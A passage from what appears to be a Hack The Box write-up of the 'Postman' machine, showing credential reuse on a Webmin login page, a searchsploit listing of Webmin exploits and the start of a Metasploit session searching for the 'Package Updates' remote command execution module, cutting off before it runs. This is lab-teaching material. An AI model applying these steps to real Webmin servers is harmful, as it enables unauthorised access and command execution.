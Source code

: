 `SSH`ing into the box using this private file doesn't seems to work. Lets see if we can use this credential somewhere else.  
These credentials seems to be working in the `webmin` login page.

## Privilege Escalation

There is an authenticated exploit available for `webmin`. Lets try using that.
#### Searchsploit
```bash
root@kali:~#searchsploit webmin
--------------------------------------------------------------------------------------------------------------
 Exploit Title                                                           
--------------------------------------------------------------------------------------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                    
Webmin - Brute Force / Command Execution      
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                 
Webmin 0.x - 'RPC' Privilege Escalation           
Webmin 0.x - Code Input Validation               
Webmin 1.5 - Brute Force / Command Execution   
Webmin 1.5 - Web Brute Force (CGI)            
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)      
Webmin 1.850 - Multiple Vulnerabilities           
Webmin 1.900 - Remote Command Execution (Metasploit)   
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)  

```
We will use [Webmin - 'Package Updates' Remote Command Execution](https://www.exploit-db.com/exploits/46984)
```bash
root@kali:~/Desktop/htb/postman# msfconsole
                                                  

 ______________________________________________________________________________
|                                                                              |
|                          3Kom SuperHack II Logon                             |
|______________________________________________________________________________|
|                                                                              |
|                                                                              |
|                                                                              |
|                 User Name:          [   security    ]                        |
|                                                                              |
|                 Password:           [               ]                        |
|                                                                              |
|                                                                              |
|                                                                              |
|                                   [ OK ]                                     |
|______________________________________________________________________________|
|                                                                              |
|                                                       https://metasploit.com |
|______________________________________________________________________________|


       =[ metasploit v5.0.62-dev                          ]
+ -- --=[ 1949 exploits - 1090 auxiliary - 334 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > search webmin

Matching Modules
================

```